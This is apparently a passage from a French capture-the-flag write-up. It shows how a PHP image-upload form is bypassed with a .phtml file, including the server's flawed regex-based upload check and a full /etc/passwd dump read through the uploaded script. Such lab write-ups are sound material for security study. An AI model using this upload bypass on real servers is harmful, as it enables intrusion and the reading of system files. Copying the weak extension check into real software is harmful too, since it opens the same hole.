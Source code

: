 ```plain
Host My Awesome Image
--charles-multipart1403440237845-41248--
```

Quand on demande l'image uploadée avec l'extension *.phtml* le PHP est bien exécuté mais un content-type d'image est toujours spécifié par le serveur.  

Avec curl on obtient plus facilement l'output :  

```plain
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/false
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/false
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/false
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
Debian-exim:x:101:103::/var/spool/exim4:/bin/false
statd:x:102:65534::/var/lib/nfs:/bin/false
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
bob:x:1000:1000:bob,,,:/home/bob:/bin/bash
mysql:x:104:107:MySQL Server,,,:/var/lib/mysql:/bin/false
```

On réitère l'opération d'upload mais cette fois notre script accepte comme argument le chemin du fichier à lire.  

Ainsi on retrouve dans *index.php* :  

```plain
          <p>Uploaded Images: <?php echo exec("find /var/www/images/ -type f | wc -l"); ?><br />
             Total Used Space: <?php echo exec("du -hs /var/www/images/ | cut -f1"); ?></p>
```

Et dans *upload.php* :  

```php
function getExtension($str) {
    $i = strrpos($str,".");
    if (!$i) { return ""; }
    $l = strlen($str) - $i;
    $ext = substr($str,$i+1,$l);
    return $ext;
 }

//--- snip ---
if ($image) {
    $filename = stripslashes($_FILES['image']['name']);
    $extension = getExtension($filename);
    $extension = strtolower($extension);
    if (preg_match("/^.*\.(bmp|jpeg|gif|png|jpg).*$/i", $filename)) {
	$size=filesize($_FILES['image']['tmp_name']);
	if ($size > MAX_SIZE*1024) {
	    echo '<h1>You have exceeded the size limit!</h1>';
	    $errors=1;
	}
```